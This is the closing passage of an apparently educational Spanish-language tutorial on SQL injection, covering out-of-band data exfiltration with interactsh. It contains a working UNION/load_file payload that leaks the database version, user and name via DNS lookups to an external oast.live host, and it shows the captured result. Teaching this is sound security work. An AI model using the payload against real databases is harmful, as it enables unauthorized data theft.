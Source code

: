 ```shell
    _       __                       __       __  
   (_)___  / /____  _________ ______/ /______/ /_ 
  / / __ \/ __/ _ \/ ___/ __ '/ ___/ __/ ___/ __ \
 / / / / / /_/  __/ /  / /_/ / /__/ /_(__  ) / / /
/_/_/ /_/\__/\___/_/   \__,_/\___/\__/____/_/ /_/

		projectdiscovery.io

[INF] Current interactsh version 1.1.9 (latest)
[INF] Listing 1 payload for OOB Testing
[INF] co6pf7mi3i5gddf22uo0bgeayc9z7g8d1.oast.live
```

Al iniciar la herramienta nos proporcionará un dominio `co6pf7mi3i5gddf22uo0bgeayc9z7g8d1.oast.live`, el cual tendremos que enviar con la petición.

En el siguiente [estudio](https://zenodo.org/records/3556347#.XeDK1tURVPY) se abarcan las diferentes formas de realizar la inyección dependiendo del gestor de base de datos en uso.

En este caso averiguaremos la versión, el usuario que esta conectado a la base de datos y el nombre de la base de datos en uso, con la siguiente sintaxis: `1'union select load_file(CONCAT('\\\\',(SELECT @@version),'.',(SELECT user()),'.',(SELECT database()),'.','co6pf7mi3i5gddf22uo0bgeayc9z7g8d1.oast.live\\vfw')),2-- -`.

```shell
[10.5.21-MariaDB-0+deb11u1.pr1ngl3s@localhost.gamesdb.co6pf7mi3i5gddf22uo0bgeayc9z7g8d1] Received DNS interaction (AAAA) from 91.126.224.37 at 2024-04-16 08:30:36
```

Al enviar la petición DNS el cual contiene de subdominios la respuesta de las consultas SELECT, vemos la versión, el usuario y el nombre de la base de datos. 

De esta forma hemos logrado la obtención de información de la base de datos, fuera del canal de comunicación principal.

## Conclusión

Hemos cubierto desde lo más básico hasta los tipos de inyecciones SQL. Lo que nos ha proporcionado el conocimiento necesario para comprender y llevar a cabo estas técnicas.

Sin embargo, es importante destacar que no siempre se aplicarán las mismas técnicas de inyección. Cada tipo de inyección tiene sus particularidades, por lo que será necesario investigar formas de eludir las múltiples técnicas de sanitización que puedan existir.

Con todo esto explicado, estamos mejor preparados para abordar los desafíos relacionados con la seguridad en bases de datos.


